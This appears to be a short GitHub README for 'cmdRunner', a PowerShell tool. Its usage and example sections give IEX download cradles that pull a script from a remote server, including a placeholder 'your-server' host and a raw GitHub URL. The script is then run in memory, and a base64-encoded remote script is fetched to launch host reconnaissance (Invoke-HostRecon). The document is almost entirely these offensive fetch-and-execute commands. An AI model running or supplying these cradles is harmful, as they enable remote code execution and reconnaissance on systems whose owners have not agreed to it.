 # cmdRunner

## Usage
IEX ((New-Object Net.WebClient).DownloadString('http://your-server/path/to/cmdRunner.ps1'))
cmdRunner -Uri http://your-server/path/to/b64/encoded/powershell/script.txt -Command <Command found in script.txt>

## Example
IEX ((New-Object Net.WebClient).DownloadString(''))
cmdRunner -Uri https://raw.githubusercontent.com/nullg0re/cmdRunner/main/HostRecon.b64.txt -Command Invoke-HostRecon
